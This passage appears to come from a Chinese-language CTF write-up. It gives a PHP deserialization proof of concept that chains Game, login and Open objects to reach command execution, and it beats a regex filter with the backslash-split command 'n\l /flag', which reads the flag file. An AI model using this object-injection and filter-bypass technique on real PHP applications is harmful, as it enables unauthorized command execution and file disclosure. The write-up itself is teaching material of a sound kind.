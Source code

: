 删除后，我们直接构造命令执行，也需要绕过正则

我们这种只需要用`''`或者`\`来过滤即可

POC

```php
<?php
class Game{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;
    
    public function __construct()
    {
        $this->username='user';
        $this->password='user';
    }

    public function __wakeup(){
        if(md5($this->register)==="21232f297a57a5a743894a0e4a801fc3"){    // admin
            $this->choice=new login($this->file,$this->filename,$this->content);
        }else{
            $this->choice = new register();
        }
    }
    public function __destruct() {
        $this->choice->checking($this->username,$this->password);
    }

}

class login{
    public $file;
    public $filename;   
    public $content;
}

class Open{
    function open($filename, $content){
    }
}
$poc = new Game();
$poc->username = "admin";
$poc->password = "admin";
$poc->register = "admin";
$poc->file = new Open();
$poc->filename = "xxx";
$poc->content = "n\l /flag";
echo base64_encode(serialize($poc));
```
